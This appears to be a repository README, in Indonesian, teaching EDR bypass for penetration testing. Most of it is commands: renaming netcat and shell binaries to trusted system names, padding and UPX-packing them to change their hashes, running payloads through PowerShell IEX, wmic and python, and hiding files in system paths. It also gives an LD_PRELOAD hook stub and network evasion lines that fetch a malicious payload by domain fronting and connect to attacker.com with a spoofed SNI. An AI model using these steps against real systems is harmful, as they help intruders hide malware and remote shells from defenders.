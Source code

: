 # 🛡️ EDR Bypass Techniques

## 📋 Overview

EDR (Endpoint Detection and Response) adalah sistem keamanan yang memantau dan menganalisis aktivitas endpoint untuk mendeteksi ancaman. Modul ini membahas berbagai teknik untuk melewati deteksi EDR dalam konteks penetration testing yang legal.

## ⚠️ Disclaimer

Teknik-teknik ini hanya untuk tujuan edukasi dan penetration testing yang sah. Penggunaan untuk tujuan ilegal adalah tanggung jawab pengguna.

## 🎯 Permasalahan Umum dengan EDR

- 🔸 EDR mendeteksi pola reverse shell & known malicious binary (hash, behavior)
- 🔸 Memblokir suspicious network connection (outbound unusual TCP)
- 🔸 Memblokir unusual binary execution dari temp folders
- 🔸 Mendeteksi known binaries (gs-netcat, nc, socat, mimikatz, dll)

## 🔧 Strategi Bypass EDR

### A. Binary Obfuscation & Renaming

**Tujuan**: Mengubah signature dan hash binary agar tidak terdeteksi

#### 1. Rename Binary ke Nama Trusted
```bash
# Rename ke nama sistem yang dipercaya
mv gs-netcat /usr/bin/ld-linux-x86-64.so.2
mv shell.exe /windows/system32/svchost.exe
```

#### 2. Strip Debug Symbols
```bash
# Menghapus debug symbols
strip gs-netcat
strip -s malware.exe
```

#### 3. Tambahkan Padding untuk Mengubah Hash
```bash
# Menambah padding random
dd if=/dev/zero bs=1 count=1000 >> gs-netcat
echo "random_data_$(date)" >> binary_file
```

#### 4. Packing dengan UPX
```bash
# Compress dan obfuscate binary
upx --ultra-brute gs-netcat
upx --best --lzma payload.exe
```

**Hasil**: Signature dan hash berbeda dari default public binary

### B. Execute via Trusted Process

**Tujuan**: Menjalankan payload melalui proses yang dipercaya sistem

#### Linux Examples:
```bash
# Via bash
bash -c "gs-netcat -c -s secret -i"

# Via python (jika tersedia)
python -c "import os; os.system('reverse_shell_command')"

# Via perl
perl -e 'system("payload_command")'
```

#### Windows Examples:
```powershell
# Via PowerShell
powershell.exe -c "IEX(payload)"

# Via WMI
wmic process call create "cmd.exe /c payload"
```

### C. Hide on Disk

**Tujuan**: Menyembunyikan binary di lokasi yang tidak mencurigakan

#### Lokasi Penyembunyian yang Baik:
```bash
# Linux
/usr/lib/systemd/
/usr/local/share/man/
/var/tmp/.cache/
/dev/shm/.sys/

# Windows  
C:\Windows\System32\
C:\Windows\Temp\
C:\ProgramData\
```

#### Rename ke Nama Valid:
```bash
# Linux
systemd-udevd
dbus-daemon
kworker

# Windows
svchost.exe
explorer.exe
winlogon.exe
```

### D. Process Injection (Advanced)

**Tujuan**: Inject ke proses yang dipercaya untuk menghindari deteksi

#### Teknik Process Hollowing:
- Compile loader yang melakukan process injection
- Target proses trusted seperti sshd, systemd, explorer.exe
- Menggunakan LD_PRELOAD untuk hook libc functions

#### LD_PRELOAD Example:
```c
// preload.c - Hook network functions
#define _GNU_SOURCE
#include <dlfcn.h>
#include <sys/socket.h>

int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen) {
    // Custom connect logic untuk bypass monitoring
    int (*original_connect)(int, const struct sockaddr *, socklen_t);
    original_connect = dlsym(RTLD_NEXT, "connect");
    
    // Implement stealth connection
    return original_connect(sockfd, addr, addrlen);
}
```

### E. Network Evasion

**Tujuan**: Menghindari deteksi network monitoring

#### Domain Fronting:
```bash
# Gunakan domain trusted sebagai front
curl -H "Host: trusted-domain.com" https://cdn.cloudflare.com/malicious-payload
```

#### TLS dengan SNI Trusted:
```bash
# Gunakan SNI domain yang dipercaya
openssl s_client -connect attacker.com:443 -servername google.com
```

#### Port 443 (HTTPS-like):
```bash
# Jalankan di port 443 agar terlihat seperti HTTPS
gs-netcat -l -p 443 -s secret
```

## 📁 Struktur Direktori

- **[binary-obfuscation/](./binary-obfuscation/)**: Script dan tools untuk obfuscation
- **[process-injection/](./process-injection/)**: Teknik dan code untuk process injection  
- **[network-evasion/](./network-evasion/)**: Metode menghindari network detection
- **[examples/](./examples/)**: Contoh implementasi nyata

## 🛠️ Tools yang Digunakan

- **UPX**: Binary packer
- **strip**: Remove debug symbols
- **objcopy**: Modify binary sections
- **msfvenom**: Payload generation dengan encoding
- **Donut**: Position-independent shellcode generator

## 📚 Referensi

- [MITRE ATT&CK - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)
- [EDR Bypass Techniques](https://github.com/topics/edr-bypass)
- [Process Injection Techniques](https://attack.mitre.org/techniques/T1055/)

## ⚡ Tips Praktis

1. **Selalu test di lab environment dulu**
2. **Kombinasikan multiple bypass techniques**
3. **Monitor EDR logs untuk melihat apa yang terdeteksi**
4. **Update teknik sesuai perkembangan EDR**
5. **Gunakan legitimate tools yang bisa disalahgunakan (LOLBins)**

---

**Next**: [02-Reverse-Shell](../02-Reverse-Shell/) - Setup reverse shell yang stealth
